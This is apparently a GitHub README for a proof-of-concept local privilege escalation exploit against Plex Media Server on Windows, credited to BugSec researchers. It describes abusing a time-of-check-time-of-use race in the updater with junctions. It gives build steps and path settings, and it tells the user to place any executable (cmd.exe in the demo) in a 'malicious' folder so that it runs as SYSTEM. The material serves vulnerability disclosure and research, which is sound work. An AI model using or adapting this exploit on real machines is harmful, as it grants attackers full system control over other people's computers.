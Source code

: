 # Local Privilege PlEXcalasion 

PlEXcalasion is a local privilige escalasion in Plex media server for windows.
Discoverd by Tomer Peled, Netanel Cohen and Amir Shen a security researchers at BugSec Israel.

The exploit levrage A Time Of Check Time Of Use (TOCTOU) vulnerabilry, allow a low privilige user gain SYSTEM priviliges.

 

This POC use tools developed by James Forshaw with slight modifications, The original can be found [here][https://github.com/googleprojectzero/symboliclink-testing-tools]

In addition to the above tools , we have created an RPC client that will trigger the update.




## Usage

1. Clone the repository and open PlEXcalasion.sln in Visual Studio.


2. Modify Paths:

PlexClient/PlexClient.cpp replace ROOTDIR with your path.
```cpp
const wchar_t* pszString = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\junction\\plex.exe"; // Path to the update file. 
```
PlEXcalaison/BaitAndSwitch/BaitAndSwitch.cpp replace ROOTDIR with your path.
```cpp
static LPCWSTR junction = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\junction";  // Path to junction folder , MAKE SURE IT IS EMPTY !
static LPCWSTR target1 = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\valid"; // Path to folder contains the valid update file.
static LPCWSTR target2 = L"<ROOTDIR>\\PlEXcalaison\\TOCTOU\\malicious"; // Path to folder contains the malicious file - MUST BE THE SAME NAME AS THE UPDATE FILE.
static LPCWSTR cacert = L"C:\\Program Files (x86)\\Plex\\Plex Media Server\\Resources\\cacert.pem"; // Path to cacert.pem - can be found in plex directory.
```

3. Build the solution.
4. Make sure a PlexClient.exe file was created in the Release dir.
5. Put the desired executeable file u want to execute as system in the malicious folder and name it plex.exe (for the poc i used cmd.exe)

6. Execute BiteAndSwap.exe



